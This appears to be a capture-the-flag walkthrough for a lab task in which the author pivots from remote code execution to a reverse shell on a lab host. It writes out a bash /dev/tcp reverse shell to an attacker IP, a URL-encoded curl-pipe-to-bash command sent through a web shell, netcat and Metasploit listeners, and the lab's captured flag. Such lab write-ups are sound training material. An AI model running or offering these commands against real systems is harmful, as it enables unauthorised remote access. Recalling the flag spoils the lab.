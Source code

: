 
Now that you have escaped the container and have RCE on the host, you need to create a reverse shell and obtain a way to gain a stable shell onto the box.  

There are several ways to obtain a reverse shell on a box once you have RCE. Outlined below are a few of the most common methods used.  

- netcat
- bash
- python
- perl

For more information about various payloads and reverse shells, you can use check out these two resources. [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings). [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

In this task, we will be covering how to use a basic bash reverse shell along with URL encoding to drop a script directly into bash. Using URL encoding to our advantage, we can ease much pain when executing a payload as often special characters such as `&, ', !, ;, ?` will cause serious issues.  

To begin, we will create a simple payload by placing the below code into a `.sh` file.

`#!/bin/bash`   
`bash -i >& /dev/tcp/tun0ip/53 0>&1`

- The first line will declare that we are using the bash scripting language. 
- The second line is the payload itself. 

For more information about this payload, check out this explain shell, [https://explainshell.com/explain?cmd=bash+-i+>%26+%2Fdev%2Ftcp%2F127.0.0.1%2F53+0>%261](https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F127.0.0.1%2F53+0%3E%261).  

Now that you have the payload ready to go, you can start up a local web server on your attacking machine using either _http.server_ or _updog_ or _php_. You can find example usage for all three below.  

- `python3 -m http.server 80`
- `updog`
- `php -S 0.0.0.0:80`

Once you have a server started hosting the file, we can compile a command to execute the file. Find the command below.  

Unencoded command: `curl http://10.x.x.x:80/shellscript.sh|bash &`

As we have already mentioned, special characters can cause issues within URLs. To combat this, we can utilize URL encoding on any special characters. Find the encoded command below.

Encoded command: `curl%20http%3A%2F%2F10.x.x.x%3A80%2Fshellscript.sh%7Cbash%20%26`

The above command is entirely ready to go. You will only need to change the IP address and the file name within the command; this does not require you to change any of the URL encoding present.

You can now start a listener using Netcat or Metasploit to catch your reverse shell once executed. Find commands below to start listeners.  

- `nc -lvnp 53`
- `use exploit/multi/handler`

Now that you have the full payload and execution command ready, you can use it and the RCE to gain a shell onto the box. Find the full command below.  

Command used: `curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.x.x.x%3A80%2Fshellscript.sh%7Cbash%20%26'`


---

# Your job

- Create a `shellscript.sh` file with the following code:
	`#!/bin/bash`
	`bash -i >& /dev/tcp/10.50.74.165/53 0>&1`

- Start up a local web server in the `shellscript.sh` directory on your attacking machine.
	`python3 -m http.server 80`

- On your browser visit the following URL:
	http://admin.holo.live/dashboard.php?cmd=curl%20http%3A%2F%2F10.50.74.165%3A80%2Fshellscript.sh%7Cbash%20%26

- On your attacking machine, start a listener using Netcat .
	`nc -lvnp 53`

- On the Reverse Shell you already have opened, run the following code:
	`curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.50.74.165%3A80%2Fshellscript.sh%7Cbash%20%26'`

	![[Task 19 - Going out with a SHEBANG!-20240919140944870.webp]]

You have shell onto  L-SRV01.

## Flag on L-SRV01

- On the Reverse Shell go to `www-data@ip-10-200-95-33:/var/www$` and run:
	`cat user.txt`

	HOLO{3792d7d80c4dcabb8a533afddf06f666}

- Submit the user flag on Task 4, question 2.

**Next step:** [[Task 20 - Call me Mario, because I got all the bits]]
